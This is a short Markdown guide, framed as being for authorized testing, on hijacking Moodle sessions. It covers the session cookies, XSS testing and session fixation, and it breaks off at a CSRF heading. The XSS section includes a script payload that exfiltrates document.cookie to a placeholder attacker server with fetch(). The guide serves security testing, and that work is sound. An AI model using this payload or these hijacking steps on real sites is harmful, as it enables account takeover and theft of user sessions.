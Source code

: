 # Moodle Session Hijacking: Technical Guide for Authorized Testing

**IMPORTANT DISCLAIMER**: This document is provided ONLY for authorized security professionals with proper written permission to test Moodle installations. Using these techniques against systems without explicit permission is illegal and unethical.

## Understanding Moodle's Session Management

Moodle typically uses two primary cookies for session management:

1. **MoodleSession**: The main session identifier that authenticates a user's session
2. **MOODLEID\_[instance]**: A secondary cookie often used for guest access and persistent sessions

When testing for session hijacking vulnerabilities, we focus on scenarios where these cookies might be exposed, stolen, or manipulated.

## Common Session Hijacking Vectors in Moodle

### 1. Cross-Site Scripting (XSS) Based Cookie Theft

XSS vulnerabilities can be used to steal session cookies if they are not properly protected.

#### Testing Method:

1. Identify potential XSS injection points (search fields, forum posts, profile fields)
2. Test with a basic XSS payload that accesses cookies:
   ```javascript
   <script>console.log(document.cookie)</script>
   ```
3. If successful, try a more advanced payload that exfiltrates cookies:
   ```javascript
   <script>
     fetch('https://your-controlled-server.com/collect?cookie='+encodeURIComponent(document.cookie))
   </script>
   ```
4. Check if the MoodleSession cookie is captured in the response

### 2. Session Fixation Attacks

Moodle versions with improper session management might be vulnerable to session fixation.

#### Testing Method:

1. Obtain a valid session ID (MoodleSession cookie) while not authenticated
2. Force this session ID on a victim's browser (in a test environment, this would be simulated)
3. Have the victim authenticate
4. Check if your original session is now authenticated as the victim

### 3. CSRF + Session Hijacking
